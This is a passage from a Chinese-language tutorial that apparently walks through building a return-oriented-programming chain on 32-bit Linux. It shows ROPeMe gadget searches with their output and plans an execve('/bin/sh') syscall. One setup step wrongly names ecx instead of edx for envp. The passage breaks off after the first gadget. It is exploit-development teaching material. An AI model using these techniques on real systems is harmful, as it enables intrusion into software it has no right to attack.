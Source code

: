 search pop ? : 搜索所有以 ret 结束的、包含 pop 的 gadgets。
? 表示 pop 下一条指令为 ret。例如 复合指令 "pop ? mov ?" 表示搜索 "pop r32;mov;ret" 指令序列。

```
ROPeMe> search pop eax %
Searching for ROP gadget: pop eax % with constraints: []
0x189a4L: pop eax ; add [esi] eax ; add [ebx+0x5d5b08c4] al ;;
0x61c42L: pop eax ; mov [ecx+0xb8] edx ; pop ebx ; pop ebp ;;
---snipped---
0xd8f31L: pop eax ;;
0xd8f52L: pop eax ;;
ROPeMe>
```

search pop eax % : eax 指令了特定寄存器；% 表示pop eax 后的指令数任意，且 结束指令可以是 "ret/leave;ret/pop ebp;ret"

# Ⅳ、exploitation
接下来就是 exploitation 的功能，并具体组织 exploitation 过程。
我打算运行 "execve("/bin/sh",0,0)";

## ① exploitation 组成
Linux 系统调用的参数一般存放在 ebx,ecx,edx,esi,edi 寄存器中。
因此参数分布存放情况
 - ebx: string 的地址
 - ecx: argp数组的指针
 - edx: envp数组的指针
 - eax: 系统调用号
execve()的系统调用号是 "11" 或 "0xb"

在 "/usr/include/i386-linux-gnu/asm/unistd_32.h" 中查看系统调用号。unistd_32.h 是 x86 汇编系统调用头文件。

```
root@kali:~/Desktop/tuts/so# cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep execve
#define __NR_execve 11
root@kali:~/Desktop/tuts/so#
```

exploitation 组成
 1. eax 清零
 2. move argp 数组的指针到 ecx
 3. move envp 数组的指针到 ecx
 4. 设置 ebx 为 "/bin/sh" 的起始地址
 5. move oxb into eax
 6. 执行系统调用

## ② 查找对应的 ROP gadgets，完成上述功能。

**（1）查找 "xor eax,eax;ret"，eax 清零。**
```
ROPeMe> search xor eax eax ?
Searching for ROP gadget: xor eax eax ? with constraints: []
0x7f448L: xor eax eax ; leave ;;
0x10b090L: xor eax eax ; leave ;;
0x796bfL: xor eax eax ; ret ;;
ROPeMe>
```
